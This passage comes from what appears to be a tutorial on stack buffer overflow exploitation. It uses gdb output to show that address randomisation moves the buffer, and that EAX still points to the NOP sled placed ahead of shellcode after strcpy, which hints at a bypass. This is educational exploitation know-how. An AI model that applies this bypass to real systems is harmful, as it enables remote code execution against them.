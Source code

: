 ```bash

Program received signal SIGSEGV, Segmentation fault.
0xbffff3a7 in ?? ()
```

When restarting the same executable, at the first breakpoint, we notice the address change: the buffer concerned is now at 0xBF999AE0:

```bash
(gdb) run < paquet_mal
Breakpoint 1, here_is_the_bug (Browser=bfff0xf3a7) at srv.c:32
32 }

(gdb) print &buffer
$2 = (char (*)[150]) 0xbf999ae0
```

It is therefore no longer possible to use so-called classic techniques to redirect the execution flow. At best with this technique, the attacker will cause a DoS (Denial Of Service).

Despite the higher security level that this solution provides, we found while studying it that this protection could be bypassed using indirect means...

At the second breakpoint, placed before returning from the function and after rewriting the return address (the saved eip displayed by gdb, 0xBFFFf3A7 is none other than the one we rewrote), we analyze the register values:

```bash
(gdb) info frame
Stack level 0, frame at 0xbf999b90:
eip = 0x804859e in here_is_the_bug (srv.c:32); saved eip 0xbffff3a7
called by frame at 0xbf999b94
source language c.
Arglist at 0xbf999b88, args: Browser=0xbffff3a7
Locals at 0xbf999b88, Previous frame's sp is 0xbf999b90
Saved registers:
ebp at 0xbf999b88, eip at 0xbf999b8c

(gdb) info registers
eax 0xbf999ae0 -1080452384
ecx 0xbf999bbd -1080452163
```

The value contained in the EAX register is... the address of our buffer! This property is due to the use of the strcpy function. Indeed, if we place ourselves at a lower level (assembly code), the different addresses and values used are placed in the appropriate registers, then a jump to the code of the strcpy function is subsequently performed. Since this function cannot do without the destination address of the buffer, it is logical that it should be placed in an accessible register (here EAX).

Let's verify the hypothesis that the EAX address indeed contains our instruction sequence previously placed in memory (sequence of NOP then shellcode):

```bash
(gdb) x/5bi 0xbf999ae0
0xbf999ae0: nop
0xbf999ae1: nop
0xbf999ae2: nop
0xbf999ae3: nop
0xbf999ae4: nop

(gdb) x/100bx 0xbf999ae0
0xbf999ae0: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xbf999ae8: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xbf999af0: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xbf999af8: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xbf999b00: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xbf999b08: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
```